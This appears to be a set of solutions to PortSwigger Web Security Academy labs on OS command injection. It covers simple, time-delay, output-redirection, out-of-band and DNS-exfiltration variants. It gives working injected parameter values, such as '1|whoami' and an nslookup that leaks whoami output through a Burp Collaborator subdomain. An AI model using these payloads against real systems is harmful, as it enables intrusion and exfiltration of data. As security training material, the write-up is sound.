 # OS command injection

## OS command injection, simple case

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-simple) contains an OS command injection vulnerability in the product stock checker: The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. 

### Proof of concept

1. Use Burp Suite to intercept and modify a request that checks the stock level. 
2. Modify the `storeID` parameter, giving it the value `1|whoami`. 
3. Observe that the response contains the name of the current user.

### Exploitability

An attacker will need to execute the `whoami` command to determine the name of the current user.

----

## Blind OS command injection with time delays

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. 

### Proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to cause a 10 second delay. 

----

## Blind OS command injection with output redirection

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    /var/www/images/

The application serves the images for the product catalog from this location. It is possible to redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. 

### Proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file specified for the output of the injected command: `filename=output.txt`
5. Observe that the response contains the output from the injected command.

### Exploitability

An attacker will need to execute the `whoami` command and retrieve the output. 

----

## Blind OS command injection with out-of-band interaction

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that is accessible. However, it is possible to trigger out-of-band interactions with an external domain.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=x||nslookup+x.burp-collab-subdomain||`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _

----

## Blind OS command injection with out-of-band data exfiltration

### Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

### Proof of concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

```
email=||nslookup+`whoami`.burp-collab-subdomain||
```
    
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.

### Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._


